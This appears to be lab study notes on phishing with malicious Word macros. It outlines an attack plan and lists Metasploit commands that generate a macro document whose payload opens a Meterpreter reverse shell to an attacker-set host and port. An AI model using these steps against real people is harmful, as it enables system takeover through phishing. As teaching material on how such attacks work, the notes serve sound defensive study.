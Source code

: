 ### Typical Phishing Scenario

1. Victim receives an urgent email (e.g., a fake charge notice).
2. Victim opens an attached malicious file or clicks on a link.
3. Malicious actions are triggered, giving attackers control of the victim's system.

---

## Macros in Malware

### What are Macros?

- **Definition**: Automated instructions in MS Office to perform repetitive tasks.
- **Usage**: Saves time, e.g., converting numbers to words.

### Macros in Cybersecurity

- Attackers exploit macros by embedding malicious code.
- Macros can be programmed to execute payloads and grant attackers remote control.

---

## Attack Plan

1. **Create** a malicious Word document with an embedded macro.
2. **Listen** for incoming connections on the attacker's system.
3. **Email** the malicious document to the target.
4. **Target Opens Document**: The macro executes, connecting the victim’s machine to the attacker.
5. **Gain Control**: The attacker establishes a reverse shell and gains remote access.

### Technical Steps for the Attack

### Attacker's System Setup

### Creating the Malicious Document

The first step involves embedding a malicious macro within a Word document. The **Metasploit Framework** can streamline this process by automating the creation of a document with an embedded macro.

### Steps to Create the Malicious Document

- Open a new terminal window and run `msfconsole` to start the Metasploit Framework
- `set payload windows/meterpreter/reverse_tcp` specifies the payload to use; in this case, it connects to the specified host and creates a reverse shell
- `use exploit/multi/fileformat/office_word_macro` specifies the exploit to be used. This is a module to create a document with a macro
- `set LHOST CONNECTION_IP` specifies the IP address of the attacker’s system, `CONNECTION_IP` in this case is the IP of the AttackBox
- `set LPORT 8888` specifies the port number you are going to listen on for incoming connections on the AttackBox
- `show options` shows the configuration options to ensure that everything has been set properly, i.e., the IP address and port number in this example
- `exploit` generates a macro and embeds it in a document
- `exit` to quit and return to the terminal

